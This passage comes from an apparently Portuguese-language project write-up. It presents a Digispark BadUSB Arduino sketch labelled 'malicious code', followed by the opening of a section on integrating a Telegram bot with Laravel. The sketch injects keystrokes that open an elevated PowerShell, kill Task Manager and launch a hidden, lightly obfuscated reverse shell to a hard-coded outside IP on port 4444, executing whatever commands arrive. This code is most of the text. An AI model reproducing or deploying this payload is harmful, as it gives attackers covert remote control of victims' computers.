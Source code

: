 #### Código Malicioso

```c
#include "DigiKeyboard.h"
#define KEY_TAB 0x2b
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(500);
  DigiKeyboard.println("taskmgr"); //starting taskmgr
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_F, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);//run
  DigiKeyboard.delay(2000);
  DigiKeyboard.print("powershell -noexit -command \"mode con cols=18 lines=1\"");//start tiny PowerShell
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);//turn on admin privileges
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //run
  DigiKeyboard.delay(5000);
  DigiKeyboard.println("taskkill /IM \"taskmgr.exe\" /F ");//killing taskmanager
  DigiKeyboard.delay(2000);
  DigiKeyboard.println("cmd");//run cmd
  DigiKeyboard.delay(2000);
  DigiKeyboard.println(F("powershell -windowstyle hidden -command \"$client = N'ew'-Ob'j'ect Sy's'tem.Net.Sockets.TCPClient('93.188.166.167',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"")); //powershell to attacker
  DigiKeyboard.delay(5000);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

## Telegram

Integrar o Telegram ao projeto foi, surpreendentemente, uma das etapas mais simples, graças a experiência que eu tenho com Laravel e à descoberta da biblioteca [TelegramBot](https://github.com/TelegramBot/Api), que simplificou ainda mais o processo.

Para manter o foco deste artigo, presumirei que você já possui um ambiente configurado com Laravel 9, PHP 8.1 e Apache2 em uma máquina Linux (utilizei Ubuntu 22.04) com suporte a HTTPS e acesso externo. Portanto, não detalharei a instalação e configuração dessas tecnologias, focando diretamente na integração com o Telegram.
